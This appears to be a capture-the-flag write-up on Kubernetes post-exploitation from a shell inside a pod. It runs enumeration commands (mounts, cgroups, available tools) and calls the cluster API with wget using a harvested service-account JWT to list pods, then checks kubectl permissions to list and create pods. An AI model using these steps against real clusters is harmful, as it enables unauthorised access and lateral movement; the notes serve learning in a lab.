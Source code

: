  - This is the first indicator that is Kubernetes
 
 
Check the Mount points:
```bash
mount | grep ‘Kubernetes’
```

> Found something? Take notes for later


check cgroups:
```bash
cat /proc/1/cgroup
```

> Another great indication that the app is running in a Kubernetes Cluster


Check commands available:
```bash
which kubectl
which curl
which wget
which python
etc
```

- Grab the Kubernetes API server IP with the ENV command


Try to access information about Pods running in the default namespace
```bash
wget <api server ip>/api/v1/namespace/default/pods
# If nothing is show, maybe we dont have permission to list Pods
```

In this case there is a serviceaccount folder with tokens, and we are gonna use the JWT to list the Pods:
```bash
wget <api server ip>/api/v1/namespace/default/pods --header="authorization: Bearer $TOKEN" --no-check-certificate -O output-pods.txt
```

- With the token it was possible to list the Pods

> Its a CTF scenario, in true assessments I wanna believe that it doesn't happens like that. Lets pray lol


- Transfer the kubectl binary to the target Pod that we have shell:


check permissions

Can u list pods?
```bash
./kubectl auth can-i list pods
# yes
```

Can u create Pods?
```bash
./kubectl auth can-i create pods
# yes
```
